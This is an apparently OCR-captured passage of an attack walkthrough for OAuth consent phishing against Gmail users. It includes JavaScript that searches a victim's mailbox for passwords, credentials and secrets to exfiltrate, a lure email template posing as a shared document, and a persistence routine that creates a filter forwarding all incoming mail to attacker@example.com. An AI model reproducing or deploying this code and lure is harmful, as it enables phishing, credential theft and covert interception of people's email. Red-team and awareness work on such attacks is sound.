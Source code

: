 ```javascript
  
  // Behind the scenes, begin data exfiltration
  extractSensitiveData(oauth2Client);
});

async function extractSensitiveData(auth) {
  // Example: Extract emails with sensitive content
  const gmail = google.gmail({ version: 'v1', auth });
  const response = await gmail.users.messages.list({
    userId: 'me',
    q: 'password OR credential OR confidential OR secret'
  });
  
  // Process and exfiltrate data
  // [...]
}

app.listen(3000, () => console.log('Server running on port 3000'));
```

**2. Phishing Delivery:**

The attacker would create a convincing email or chat message:

```
Subject: Important Document Shared With You

Hi [Name],

I've shared an important document regarding the upcoming project.
Please review it at your earliest convenience.

[View Document]

Thanks,
[Colleague Name]
```

The "View Document" link directs to the OAuth authorization flow, which appears legitimate but requests excessive permissions.

**3. Persistence Mechanism:**

```javascript
// Once tokens are acquired, establish persistence
async function establishPersistence(auth) {
  // Create a mail forwarding filter to maintain access to communications
  const gmail = google.gmail({ version: 'v1', auth });
  
  await gmail.users.settings.filters.create({
    userId: 'me',
    requestBody: {
      criteria: {
        from: '*', // All incoming emails
      },
      action: {
        forward: 'attacker@example.com',
        addLabelIds: ['INBOX']
      }
    }
  });
  
  // Set up a Google Apps Script for persistent access
  // [...]
}
```
